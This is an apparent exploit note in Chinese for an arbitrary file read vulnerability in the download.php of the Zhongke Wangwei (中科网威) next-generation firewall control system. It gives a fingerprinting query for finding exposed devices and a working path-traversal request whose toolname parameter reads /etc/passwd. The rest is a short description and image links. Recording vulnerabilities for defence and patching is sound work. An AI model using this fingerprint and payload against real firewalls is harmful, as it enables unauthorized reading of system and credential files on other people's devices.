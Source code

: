 # 中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞

## 漏洞描述

中科网威 下一代防火墙控制系统 download.php 任意文件读取漏洞, 攻击者通过漏洞可以读取服务器上的文件

## 漏洞影响

```
中科网威 下一代防火墙控制系统
```

## 网络测绘

```
body="Get_Verify_Info(hex_md5(user_string)."
```

## 漏洞复现

登录页面如下

![](images/202202162251851.png)

漏洞存在于 download.php

![](images/202202162251009.png)



任意点击后抓包，更改 **toolname** 参数

```plain
/download.php?&class=vpn&toolname=../../../../../../../../etc/passwd
```

![](images/202202162251674.png)
